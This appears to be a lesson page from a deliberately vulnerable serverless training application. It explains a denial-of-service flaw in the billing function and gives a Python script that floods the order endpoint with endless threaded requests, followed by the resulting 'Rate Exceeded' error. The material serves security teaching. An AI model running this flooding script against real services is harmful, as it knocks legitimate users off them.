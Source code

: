 # LESSON #6: Denial of Service (DoS)

To avoid flooding the 3rd party payment processing (its not really 3rd-party, but think about it as a STRIPE), the DVSA is configured to allow only 10 concurrent invocations of the billing process.

This means that an attacker can cause a Denial of Service on payment processing in the applicaiton, simply by sending the billing request in at least 10 parallel threads.

This simply python code will exploit it (with sample data):

```python
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://qz0yy61905.execute-api.us-east-1.amazonaws.com/dev/order"
    headers = {"Authorization": "eyJraWQiOiIyQ1dZekh0dTV..............BVVplWk9qenw"}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()

```

As a result, any other user that will try to invoke this service will receive:
```
{
  "message": "Rate Exceeded.",
  "code": "TooManyRequestsException",
  "time": "2018-12-22T23:25:29.935Z",
  "requestId": "deec6aa7-0640-11e9-9e02-a529a60fefd1",
  "statusCode": 429,
  "retryable": false,
  "retryDelay": 17.57835303415325
}
```
- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)
